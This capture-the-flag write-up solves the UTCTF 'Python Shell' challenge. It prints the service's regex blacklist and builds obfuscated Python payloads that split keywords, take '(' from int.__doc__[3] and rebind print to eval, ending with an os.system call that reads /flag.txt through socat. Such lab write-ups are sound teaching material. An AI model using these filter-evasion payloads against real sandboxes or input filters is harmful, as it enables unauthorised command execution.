 # Python Shell 

## Task

Upload a Python file that can be run by invoking the python command, and we will run it for you. To do so, send the bytes over the stream, and close the write half. stdout will be sent back. For security reasons, we may refuse to run your file if we detect dangerous strings. There is a byte limit and a timeout.

nc misc.utctf.live 4353


## Solution

First you hat to create a connection and halfclose it. This is best done with `socat -t1 - TCP:misc.utctf.live:4353`.

So now to the payload. A simple `print('xxx')` returns xxx so far so good.

But if we just try to: `print(open('/flag.txt').read())` we get:

```
Files must be uploaded within 2 seconds. Scripts must run within 2 seconds. Only the first 4096 bytes will be considered.
Blacklist: (eval)|(import)|(open)|(with)|(as)|(from)|(lambda)|(\s*print\s*=\s*)|(?P<paren>\()
Whitelist: (\s*print\s*(?P<paren>\())
```


So we know what is prohibited: `eval|import|open|with|as|from|lambda|print = |` and what is that?
`(` open parentheses... ok thats "new"...


So to get around the forbidden `open` we could do something like:  `eval('op' + 'en'('flag.txt'))` but eval is forbidden as well.

`__builtins__.__dict__['ev' + 'al']`

Will solve that, so now to the `(` we can just replace that with int.__doc__[3].

`__builtins__.__dict__['ev' + 'al']`('print' + int.__doc__[3] + 'op' + 'en' + int.__doc__[3] + '\'/flag.txt\')' + '.read' + int.__doc__[3] + '))')`

So maybe something like that? But wait there is still a `(` at char(40) damn!

How to get rid of that? I didn't find a way to get rid of it directly, but there was mention of a "whitelist" before. `Whitelist: (\s*print\s*(?P<paren>\())`
For `print(` the `(` is ok, good to know!

Let's try

`p = 'print' + int.__doc__[3] + 'op' + 'en' + int.__doc__[3] + '\'/flag.txt\')' + '.read' + int.__doc__[3] + '))';  __builtins__.__dict__['print'] = __builtins__.__dict__['ev' + 'al']; print(p + "")`


No answer... Debugging it locally gives me the flag, but via stderr since it throws an exception.

So I changed it the actual payload to: `os.system('cat /flag.txt')`

Resulting in: `p = '__builtins__.__i' + 'mport__' + int.__doc__[3] + '"os").system' + int.__doc__[3] + '"cat /flag.txt")'; __builtins__.__dict__['print'] = __builtins__.__dict__['ev' + 'al']; print(p)"` as the final payload.

```
echo "p = '__builtins__.__i' + 'mport__' + int.__doc__[3] + '"os").system' + int.__doc__[3] + '"cat /flag.txt")'; __builtins__.__dict__['print'] = __builtins__.__dict__['ev' + 'al']; print(p)" > payload`
cat payload | socat -t1 - TCP:misc.utctf.live:4353
Files must be uploaded within 2 seconds. Scripts must run within 2 seconds. Only the first 4096 bytes will be considered.
utflag{unclean_input}
```



